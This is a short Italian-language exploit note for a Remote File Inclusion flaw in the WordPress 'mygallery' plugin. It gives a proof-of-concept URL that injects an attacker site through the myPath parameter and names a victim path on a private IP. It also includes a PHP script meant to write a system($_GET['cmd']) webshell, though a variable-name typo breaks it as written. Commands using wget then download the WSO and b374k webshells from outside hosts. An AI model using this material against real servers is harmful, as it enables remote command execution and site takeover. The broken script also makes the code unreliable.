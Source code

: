 *************************
*************************
*************************







RFI in WordPress

vulnerabilità RFI in 

path POC: 





http://www.example.com/mygallery/myfunctions/mygallerybrowser.php?myPath=attacker site 

path Vittima:





http://172.25.1.116/wordpress/wp-content/plugins/mygallery/myfunctions/mygallerybrowser.php

sito ufficiale di mygallery:






http://www.wildbits.de/mygallery/

script che, una volta eseguito dal server vittima, crea la semplice webshell






<?php
        $webhsell="<? system(\$_GET['cmd']) ?>";
        $filename="simplewebshell.txt";
        file_put_contents($filename,$webshell);
        print('payload creato '.$filename.' '.$webshell);
?>



scaricamento dwlla Webshell WSO





?cmd=wget https://github.com/downloads/orbweb/PHP-SHELL-WSO/wso2.5.1.php
?cmd=wget http://b374k-shell.googlecode.com/files/b374k-2.7.php





